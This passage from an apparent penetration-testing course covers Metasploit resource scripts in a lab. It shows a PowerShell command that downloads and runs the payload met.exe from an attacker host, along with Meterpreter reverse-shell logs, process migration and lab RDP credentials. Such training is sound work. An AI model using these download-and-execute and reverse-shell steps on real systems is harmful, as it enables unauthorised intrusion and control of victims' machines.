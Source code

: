 ```bash
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

All of our commands were executed as specified in the script.

Let's connect to the BRUTE2 machine via RDP with user justin and password SuperS3cure1337#, start PowerShell, download the malicious Windows executable met.exe that we already used in previous sections, and execute it.

```bash
PS C:\Users\justin> iwr -uri http://192.168.119.4/met.exe -Outfile met.exe

PS C:\Users\justin> .\met.exe
```

Once met.exe gets executed, Metasploit notifies us about the incoming connection.

```bash
[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Redirecting stageless connection from /dkFg_HAPAAB9KHwqH8FRrAG1_y2iZHe4AJlyWjYMllNXBbFbYBVD2rlxUUDdTrFO7T2gg6ma5cI-GahhqTK9hwtqZvo9KJupBG7GYBlYyda_rDHTZ1aNMzcUn1x with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Attaching orphaned/stageless session...
[*] Session ID 1 (192.168.119.4:443 -> 127.0.0.1) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (2004)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5340
[+] Successfully migrated into process 5340
[*] Meterpreter session 1 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-02 09:54:32 -0400
```

There are resource scripts provided for port scanning, brute forcing, protocol enumerations, and so on. Before we attempt to use them, we should thoroughly examine, understand, and modify them to fit our needs.

Some of these scripts use the global datastore of Metasploit to set options such as RHOSTS. When we use set or unset, we define options in the context of a running module. However, we can also define values for options across all modules by setting global options. These options can be set with setg and unset with unsetg.3

Resource scripts can be quite handy to automate parts of a penetration test. We can create a set of resource scripts for repetitive tasks and operations. We can prepare those scripts and then modify them for each penetration test. For example, we could prepare resource scripts for listeners, pivoting, post-exploitation, and much more. Using them on multiple penetration tests can save us a lot of time.

Let's summarize what we learned in this section. We began by getting familiar with resource scripts. Then, we created our own resource script to automate the setup process of a multi/handler listener. Finally, we executed the resource script and a corresponding executable file to receive an incoming Meterpreter reverse shell, which migrated itself to a newly spawned Notepad process.